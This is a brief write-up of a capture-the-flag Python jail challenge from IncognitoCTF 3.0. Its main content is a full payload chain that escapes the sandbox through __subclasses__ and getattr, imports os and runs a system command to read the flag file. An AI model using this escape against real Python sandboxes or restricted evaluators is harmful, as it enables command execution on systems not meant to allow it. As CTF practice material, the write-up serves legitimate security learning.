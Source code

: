 # IncognitoCTF 3.0 - PyJail 2

- Type: jail 
- Level: meduim 
- Points : 100
- link : nc 142.93.209.130 14010`

Same substitution problem as before, this time the character I used is `.`

Final chain: `_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](flag, '_._class_._'), '_._bases_._')[0], '_._subclasses_._')()[196](), '_module'), '_._builtins_._')['_._import_._']('os'), 'system')('cat jail2')`

Flag: `ictf{Y0u_D1D_1t_143233689965}`
